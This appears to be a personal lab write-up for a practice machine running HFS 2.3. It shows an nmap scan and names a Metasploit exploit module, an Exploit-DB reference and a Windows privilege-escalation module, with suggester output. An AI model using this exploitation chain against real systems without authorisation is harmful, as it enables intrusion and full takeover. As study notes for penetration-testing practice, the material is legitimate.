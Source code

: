 ## Nmap Port Scanning
- <mark>Basic Scan</mark>
``` bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -T4 10.10.10.8 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 15:55 EDT
Nmap scan report for 10.10.10.8
Host is up (0.023s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.05 seconds
```
#### 80/tcp open HttpFileServer httpd 2.3
- Port 80 is running HFS rejetto version 2.3.![[Pasted image 20230901160246.png]]
	- `searchsploit` reveals multiple vulnerabilities against version 2.3.
- <mark>Exploitation</mark>
```bash
#Obtains highest level of authority(NT System/Authority)
exploit/windows/http/rejetto_hfs_exec
# exploit DB python script
https://www.exploit-db.com/exploits/39161
```
- <mark>Post-Exploitation</mark>
```bash
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 184 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Running check method for exploit 41 / 41
# Escalation  
exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```